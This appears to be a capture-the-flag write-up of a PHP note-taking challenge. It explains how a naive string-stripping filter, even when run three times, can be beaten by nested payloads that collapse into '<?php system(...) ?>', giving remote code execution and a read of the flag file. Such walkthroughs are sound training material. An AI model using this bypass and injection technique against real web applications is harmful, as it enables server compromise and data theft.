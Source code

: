 # PHat Pottomed Girls

> Tags: web, php  

## Challenge Description

![image](https://user-images.githubusercontent.com/56489087/139527309-ee0b8d13-c9a3-4754-8964-348076f03130.png)

## Target

We can see the the website is just a note creating site that contain links to notes in a php file format. If they are saved in PHP that means we can use PHP to execute code. 

![image](https://user-images.githubusercontent.com/56489087/139527977-b20ce664-e0bd-4232-8aba-fa420a6dce55.png)

![image](https://user-images.githubusercontent.com/56489087/139559842-f00282c3-e56e-473d-aad1-764fbd0cf87e.png)


## Addnote.php

File provided in challenge.

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

We can see that the filter function is being used on our payload 3 times. Because it search out and replaces it with nothing, it closes the gaps within our payload. After some testing  we came up with this payload.

> <<<<????php ssssystemystemystemystem("ls"); ????>>>>

It will progress in such a way that the last payload left will evaluate to:

```php
<?php system("ls"); ?>
```

This command will allow us to read the contents of the root directory.

We can then find the name of the flag file and read its contents.

> <<<<????php ssssystemystemystemystem("ccccatatatat fffflaglaglaglag.php"); ????>>>>
```php
<?php system("cat flag.php"); ?>
```

![image](https://user-images.githubusercontent.com/56489087/139528082-7b83b53e-8123-4fec-97a7-6c659a64d35a.png)

